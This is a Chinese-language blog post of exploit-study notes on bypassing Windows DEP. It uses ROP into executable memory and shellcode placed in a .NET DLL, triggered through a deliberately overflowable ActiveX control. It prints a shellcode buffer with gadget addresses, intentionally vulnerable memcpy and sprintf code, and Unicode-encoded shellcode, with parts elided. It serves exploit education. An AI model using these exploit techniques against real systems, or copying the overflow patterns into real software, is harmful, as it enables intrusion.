 ```yaml
---
title: 漏洞学习笔记-016-利用可执行内存和.NET攻击DEP
description: Ret2Libc之利用VirtualProtect和VirtualAlloc攻击DEP攻击DEP
date: 2020-11-20 14:13:00+0800
categories:
    - Exploit
tags:
    - Windows
    - Exploit
---
```


本文来源：[Moeomu的博客](/zh-cn/posts/漏洞学习笔记-015-利用VirtualProtect和VirtualAlloc攻击DEP/)

## 利用可执行内存攻击DEP

### 原理

- 有的时候在进程的内存空间中会存在一段可读可写可执行的内存，如果我们能够将shellcode复制到这段内存中，并劫持程序流程，我们的shellcode就有执行的机会

### 代码

```cpp
#include <stdlib.h>
#include <string.h>
#include <stdio.h>
#include <windows.h>

char shellcode[] =
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"......"
"\x90\x90\x90\x90"
"\x8A\x17\x84\x7C"//pop eax retn
"\x0B\x1A\xBF\x7C"//pop pop retn
"\xBA\xD9\xBB\x7C"//修正EBP retn 4
"\x5F\x78\xA6\x7C"//pop retn
"\x08\x00\x14\x00"//可执行内存中弹出对话框机器码的起始地址
"\x00\x00\x14\x00"//可执行内存空间地址，复制用
"\xBF\x7D\xC9\x77"//push esp jmp eax && 原始 shellcode 起始地址
"\xFF\x00\x00\x00"//shellcode 长度
"\xAC\xAF\x94\x7C"//memcpy
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"......"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8"
;

void test()
{
    char tt[176];
    memcpy(tt, shellcode, 450);
}

int main()
{
    HINSTANCE hInst = LoadLibrary("shell32.dll");
    char temp[200];
    test();

    return 0;
}
```

### 后记

- 按理来说是要有RWE权限的内存区域的，可惜么得，此实验未完成

## 利用.NET攻击DEP

### 原理

- .NET 的文件具有和与PE文件一样的结构，也就是说它也具有.text等段，这些段也会被映射到内存中，也会具备一定的可执行属性。大家应该想到如何利用这一点了，将shellcode放到.NET中具有可执行属性的段中，然后让程序转入这个区域执行，就可以执行shellcode了
- 需求
  - 具有溢出漏洞的ActiveX控件
  - 包含有shellcode的.NET控件
  - 可以触发ActiveX控件中溢出漏洞的POC页面

### 代码

> 具有溢出漏洞的ActiveX控件

```cpp
void CVulnerAXCtrl::test(LPCTSTR str)
{
    // AFX_MANAGE_STATE(AfxGetStaticModuleState());
    // TODO: Add your dispatch handler code here
    printf("aaaa"); // 定位该函数的标记
    char dest[100];
    sprintf(dest, "%s", str);
}
```

> 包含有shellcode的.NET控件

```c#
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;

namespace DEP_NETDLL
{
    public class Class1
    {
        public void Shellcode()
        {
            string shellcode =
            "\u9090\u9090\u9090\u9090\u9090\u9090\u9090\u9090" +
            "\u68fc\u0a6a\u1e38\u6368\ud189\u684f\u7432\u0c91" +
            "\uf48b\u7e8d\u33f4\ub7db\u2b04\u66e3\u33bb\u5332" +
            "\u7568\u6573\u5472\ud233\u8b64\u305a\u4b8b\u8b0c" +
            "\u1c49\u098b\u698b\uad08\u6a3d\u380a\u751e\u9505" +
            "\u57ff\u95f8\u8b60\u3c45\u4c8b\u7805\ucd03\u598b" +
            "\u0320\u33dd\u47ff\u348b\u03bb\u99f5\ube0f\u3a06" +
            "\u74c4\uc108\u07ca\ud003\ueb46\u3bf1\u2454\u751c" +
            "\u8be4\u2459\udd03\u8b66\u7b3c\u598b\u031c\u03dd" +
            "\ubb2c\u5f95\u57ab\u3d61\u0a6a\u1e38\ua975\udb33" +
            "\u6853\u6577\u7473\u6668\u6961\u8b6c\u53c4\u5050" +
            "\uff53\ufc57\uff53\uf857"
            ;
        }
    }
}
```

## 利用Java Applet挑战DEP

> 难以找到适合的版本，所以此实验略过，以后有机会再补充
